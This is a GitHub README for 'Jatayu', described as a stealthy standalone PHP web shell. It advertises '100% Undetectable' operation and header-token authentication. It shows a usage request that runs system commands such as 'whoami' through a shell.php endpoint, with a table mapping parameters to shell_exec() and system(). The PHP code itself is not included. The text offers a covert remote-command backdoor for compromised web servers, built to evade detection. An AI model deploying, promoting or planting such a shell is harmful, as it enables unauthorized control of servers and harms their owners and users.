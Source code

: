 <h1 align="center">
  <a href=""><img src="https://github.com/SpiderMate/Jatayu/blob/master/jatayu-image.png" width="100" height="100" alt="Jatayu"></a>
  <br>
  JATAYU
  <br>
</h1>

<h4 align="center">Stealthy Stand Alone PHP Web Shell</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

### FEATURES
- Http Header Based Authentication.
- 100% Undetectable.
- Exec Function Changer.

### USAGE
```
GET /test/shell.php?fn=1&&cmd=whoami
Host : http://test.com
Authtoken : bb3b1a1f-0447-42a6-955a-88681fb88499
```
### FUNCTIONS

| PARAMETER       | FUNCTION                       |
| ----------------|:------------------------------:|
| fn=1            | Calls function shell_exec()    |
| fn=2            | Calls function system()        |
| cmd=id          | Executes command               |



<b>As Always Nothing Fancy</b>
